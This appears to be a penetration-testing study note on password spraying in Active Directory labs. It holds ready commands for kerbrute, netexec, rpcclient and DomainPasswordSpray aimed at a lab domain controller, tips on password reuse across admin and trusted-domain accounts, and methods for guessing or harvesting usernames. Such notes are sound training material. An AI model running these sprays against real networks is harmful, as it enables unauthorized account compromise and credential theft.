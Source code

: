 This is a key focus for us as it is one of two main avenues for gaining domain credentials for access, but one that we also must proceed with cautiously.

It is worth targeting high-value hosts such as `SQL` or `Microsoft Exchange` servers, as they are more likely to have a highly privileged user logged in or have their credentials persistent in memory.

If we find a desktop host with the local administrator account password set to something unique such as `$desktop%@admin123`, it might be worth attempting `$server%@admin123` against servers. if we find non-standard local administrator accounts such as `bsmith`, we may find that the password is reused for a similarly named domain user account. If we retrieve the password for a user named `ajones`, it is worth trying the same password on their admin account (if the user has one), for example, `ajones_adm`, to see if they are reusing their passwords. This is also common in domain trust situations. We may obtain valid credentials for a user in domain A that are valid for a user with the same or similar username in domain B or vice-versa.

> [!NOTE] Note
> If you find a set of valid credentials, pass it around the entire network to see if it's a local admin anywhere

#### Kerbrute
```bash
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
#### Netexec
```bash
netexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
#### rpcclient
```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
#### [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) (Windows)
DomainPasswordSpray will generate a user file for us
```powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

### Misc
```shell
netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```
#### Username Conventions
|Username Convention|Practical Example for Jane Jill Doe|
|---|---|
|`firstinitiallastname`|jdoe|
|`firstinitialmiddleinitiallastname`|jjdoe|
|`firstnamelastname`|janedoe|
|`firstname.lastname`|jane.doe|
|`lastname.firstname`|doe.jane|
|`nickname`|doedoehacksstuff|

> [!NOTE] A tip from M3rB3n
>  We can often find the email structure by Googling the domain name, i.e., “@inlanefreight.com” and get some valid emails. From there, we can use a script to scrape various social media sites and mashup potential valid usernames. Some organizations try to obfuscate their usernames to prevent spraying, so they may alias their username like a907 (or something similar) back to joe.smith. That way, email messages can get through, but the actual internal username isn’t disclosed, making password spraying harder. Sometimes you can use google dorks to search for “inlanefreight.com filetype:pdf” and find some valid usernames in the PDF properties if they were generated using a graphics editor. From there, you may be able to discern the username structure and potentially write a small script to create many possible combinations and then spray to see if any come back valid.

**It is ideal to limit the need to guess as much as possible when conducting password attacks.**
